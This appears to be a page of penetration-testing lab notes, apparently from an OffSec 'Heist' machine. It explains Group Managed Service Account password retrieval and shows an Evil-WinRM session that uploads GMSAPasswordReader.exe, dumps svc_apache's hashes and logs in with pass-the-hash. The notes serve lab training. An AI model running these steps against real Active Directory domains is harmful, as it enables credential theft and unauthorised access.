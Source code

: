 # GMSA

> Group Managed Service Accounts (GMSA)
>
> Group Managed Service Accounts provide a higher security option for non-interactive applications, services, processes, or tasks that run automatically but need a security credential.
>
> These service accounts are given automatically-generated passwords. Given certain permissions, it is possible to retrieve these password hashes from Active Directory. To see what users or groups have permissions to do that for a given service account, we can look up the PrincipalsAllowedToRetrieveManagedPassword user property on the account.

[https://github.com/CsEnox/tools/raw/main/GMSAPasswordReader.exe](https://github.com/CsEnox/tools/raw/main/GMSAPasswordReader.exe)

```
*Evil-WinRM* PS C:\Users\enox\Desktop> upload GMSAPasswordReader.exe

*Evil-WinRM* PS C:\USers\enox\Documents> ./GMSAPasswordReader.exe --accountname svc_apache
Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : [REDACTED]
[*]       aes128_cts_hmac_sha1 : [REDACTED]
[*]       aes256_cts_hmac_sha1 : [REDACTED]
[*]       des_cbc_md5          : [REDACTED]

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : [REDACTED]
[*]       aes128_cts_hmac_sha1 : [REDACTED]
[*]       aes256_cts_hmac_sha1 : [REDACTED]
[*]       des_cbc_md5          : [REDACTED]
```

Current Value -> rc4\_hmac

```
$ evil-winrm -u 'svc_apache$' -H [REDACTED]-i 192.168.147.165
```
